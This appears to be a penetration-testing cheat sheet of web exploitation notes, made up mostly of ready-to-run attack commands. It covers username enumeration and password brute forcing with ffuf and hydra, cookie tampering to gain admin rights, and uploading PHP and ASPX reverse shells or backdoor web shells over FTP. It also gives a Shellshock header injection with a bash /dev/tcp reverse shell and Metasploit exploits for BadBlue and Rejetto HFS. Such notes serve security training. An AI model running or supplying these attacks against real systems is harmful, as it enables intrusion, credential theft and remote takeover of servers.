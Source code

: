 # Web Exploitations

## Authentication Bypass

### Username enumeration

If the login or register page tell me a message like this when i try to use a username: "**An account with this username already exists**". We can use some tools to enumerate valid users.

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=X&password=X&cpassword=X" -H "Content-Type: application/x-www-form-urlencoded" -u http://DOMAIN.COM/customers/signup -mr "username already exists"

# -w: specific a list of usernames
# -X: set request method
# -d: specify the parameters with FUZZ par
# -H: set header
# -u: indicate the URL
# -mr: message which indicate that user is already exists
```
{% endcode %}

### HTTP Login Brute Force&#x20;

{% code title="hydra" overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://$URL/login -fc 200

# -w: declare wordlists into variables W1 and W2
# -d: set parameters with the Wordlist declared before
# -fc: positive match, avoid HTTP response 200
```
{% endcode %}

### Basic HTTP Auth Brute force

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt DOMAIN.com http-get "/login/page/"                                                               
```
{% endcode %}



### Logic Flaw

Try to check the logic of these pages/actions for a website to find authentication bypasses:

* Reset Password Logic
* Login page Logic
* Register page Logic

#### Create a "doppelganger"

To create a new user with the same name as the target user but with a space at the beginning of the name, follow these steps..

For hacking the user **admin**. We have to create a user with this name " `admin`" (without quotes). In this way all the query for this new user will be  the same of the target user.

### Cookie Tampering

**Examining and editing the cookies** set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

If we have this cookies in a website:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We can change this cookie like this to become a Admin:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=true; Max-Age=3600; Path=/
```



## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
